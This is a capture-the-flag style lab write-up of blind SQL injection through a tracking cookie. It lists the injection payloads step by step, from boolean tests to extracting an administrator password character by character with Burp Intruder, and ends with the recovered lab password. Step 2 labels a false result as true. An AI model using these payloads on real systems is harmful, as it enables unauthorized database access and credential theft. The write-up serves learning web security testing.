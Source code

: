 # Lab: Blind SQL injection with conditional responses

Cookie: TrackingId=cTGVMR526u1AQK6j;

### step1

TrackingId=xyz' AND '1'='1

```sql
TrackingId=cTGVMR526u1AQK6j' AND '1'='1;
```

->TRUE-> Welcome back!

### step2

TrackingId=xyz' AND '1'='2

```sql
TrackingId=cTGVMR526u1AQK6j' AND '1'='2;
```

->TRUE-> no welcome back

### step3

Verify that the condition is true, confirming that there is a table called `users`.

```sql
TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a
```

->TRUE-> Welcome back!

### step4

Verify that the condition is true, confirming that there is a user called `administrator`

```sql
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```

->TRUE-> Welcome back!

### step5

determine how many characters are in the password of the `administrator` user

```sql
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```

This condition should be true, confirming that the password is greater than 1 character in length.
->TRUE-> Welcome back!

### step6

Send a series of follow-up values to test different password lengths. Send

```sql
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='a
```

->TRUE-> Welcome back!

### step7

Send a series of follow-up values to test different password lengths. Send

```sql
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>3)='a
```

### step8

```sql
TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
```

### step9

```sql
TrackingId=xyz' AND (SELECT SUBSTRING(password,§1§,1) FROM users WHERE username='administrator')='§a§
```

```Notes
1   2  3  4  5  6  7  8  9  10  11  12  13  14  15  16  17  18  19  20
8   s  j  o  5  a  c  y  s e r  a    m   f    y     c   g   q    p    v
8sjo5acyseramfycgqpv
```

`Attack type cluster bomb`
![screenshot](./images/attack_type.png)

`1st payload`
![screenshot](./images/first_payload.png)

`2nd payload`
![screenshot](./images/second_payload.png)

Lab: Blind SQL injection with conditional responses
